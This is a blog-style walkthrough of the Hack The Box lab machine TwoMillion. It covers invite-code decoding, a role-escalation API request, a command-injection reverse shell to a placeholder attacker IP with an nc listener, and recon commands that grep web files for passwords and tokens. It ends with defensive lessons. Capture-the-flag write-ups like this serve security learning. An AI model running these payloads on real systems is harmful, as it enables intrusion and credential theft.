 ```yaml
---
layout: post
title: "Hack The Box: TwoMillion (Easy) — My Experience"
date: 2025-10-15 12:00:00 -0500
categories: [CTF, HackTheBox]
tags: [htb, twomillion, ctf, walkthrough, enumeration, privilege-escalation]
pin: false
---
```


# Hack The Box: TwoMillion (Easy)

I picked up TwoMillion after a long week because I wanted something that felt fun, fast, and a little nostalgic. It’s one of those HTB boxes that rewards curiosity more than heavy tooling—perfect for a quick win and a reminder that reading what’s right in front of you is often enough.

> Legal note: This is about my experience on a legal training lab.

## First Impressions
I did a quick scan and headed straight to the website. The UI felt familiar—HTB throwback style—with an invite flow that immediately made me think: “There’s probably something helpful hiding in the client code.” That hunch paid off. No brute forcing.

What I enjoyed here was the reminder that client-side JavaScript can be a treasure map. Reading it felt like walking behind the scenes and finding the door that everyone assumes is locked.

```bash
# Quick scan
export TARGET=<IP>
nmap -p- -sC -sV -oN nmap_full $TARGET

# Peek at the client JS to discover invite endpoints
curl -s http://$TARGET/js/inviteapi.min.js | sed 's/;/;\n/g' | head -n 60

# Generate and decode the invite
curl -s "http://$TARGET/api/invite/generate" | jq -r '.data' | tee invite.b64
cat invite.b64 | base64 -d | tr 'A-Za-z' 'N-ZA-Mn-za-m' | tee invite.txt
```

## The Little Nudge That Opened The Door
Once I registered and poked around, I watched the network calls and noticed how roles were being handled. It was one of those “surely this is checked server‑side… right?” moments. It wasn’t. A tiny change and—boom—an Admin panel appeared. That mix of surprise and “I knew it” is the best part of these easier machines.

```bash
# Conceptual example: promoting my role after login
curl -i -X POST "http://$TARGET/api/user/role" \
  -H "Cookie: <your-session-cookie>" \
  -H "Content-Type: application/json" \
  --data '{"role":"admin"}'
```

## Getting a Shell (And Keeping It)
The admin “network tool” practically built shell commands for me. It’s the classic trap: convenience over safety. A quick injection later I had a shell. I stabilized it out of habit and did my usual sweep—users, services, config paths. Nothing dramatic, just tidy and methodical.

```bash
# Listener
rlwrap nc -lvnp 4444

# Injection payload (Linux bash)
;bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1'

# Stabilize and quick triage
script /dev/null -c bash
stty raw -echo; fg
export TERM=xterm-256color
id; whoami; hostname; ip a
ls -al /home; cat /etc/os-release
```

## PrivEsc Thoughts
For escalation I kept it simple: check sudo, peek at SUIDs, and read through the web app’s files for secrets. Depending on the kernel build, there are well‑known locals that might apply—but I don’t fire those unless I need to. In my run, good hygiene and a bit of config snooping were enough to finish.

```bash
# Quick checks I ran
sudo -l || true
find / -perm -4000 -type f 2>/dev/null
grep -R "PASSWORD\|SECRET\|TOKEN" -n /var/www 2>/dev/null
ls -al /opt /srv /var/backups

# If containers are present
docker ps -a || true
getent group docker || true
```

## Flags
- User flag: Collected after the foothold.
- Root/Admin flag: Wrapped up after escalation.

## If This Were My App
- I’d treat invite flows like auth: rate‑limit, validate, and never rely on clever encoding.
- Role changes must be enforced server‑side. The client can request, but the server decides.
- Admin utilities should never wrap raw shell; whitelist flags or use safe libraries.
- Secrets belong outside the web root with strict permissions.
- Ship patches regularly; locals shouldn’t be one‑command escalations.

## What Stuck With Me
- Reading client JS first saved time—it literally pointed me to the right door.
- Security isn’t about obscurity or “nice UI”; it’s about boring, consistent validation.
- The fastest path is often the cleanest one: be curious, read the code, then move.


